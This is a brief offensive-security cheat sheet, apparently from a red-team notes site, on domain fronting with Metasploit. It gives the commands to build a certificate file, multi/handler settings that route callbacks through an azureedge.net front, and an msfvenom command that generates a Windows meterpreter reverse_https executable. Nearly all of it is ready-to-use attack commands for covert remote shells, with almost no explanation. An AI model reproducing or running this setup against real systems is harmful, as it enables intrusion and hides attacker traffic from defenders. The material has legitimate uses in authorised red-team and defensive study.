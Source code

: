 # Domain Fronting

## Domain Fronting

### Add a letsencrypt cert 

```csharp
cat privkey2.pem fullchain2.pem > msf.pem 
```

### Multi-handler config

```csharp
msf5 exploit(multi/handler) > set LHOST good.domain.com
msf5 exploit(multi/handler) > set OverrideLHOST good.domain.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
msf5 exploit(multi/handler) > set HttpHostHeader baddomain.azureedge.net
```

{% hint style="info" %}
OverrideLHOST and OverrideRequestHost are only require in case of Staged Payload.

These options avoid host overwrite for the second staged payload.
{% endhint %}

### Payload

```csharp
msfvenom -p windows/meterpreter/reverse_https LHOST=good.domain.com \
LPORT=443 HttpHostHeader=baddomain.azureedge.net \
-f exe -o ~/path/to/payload.exe
```

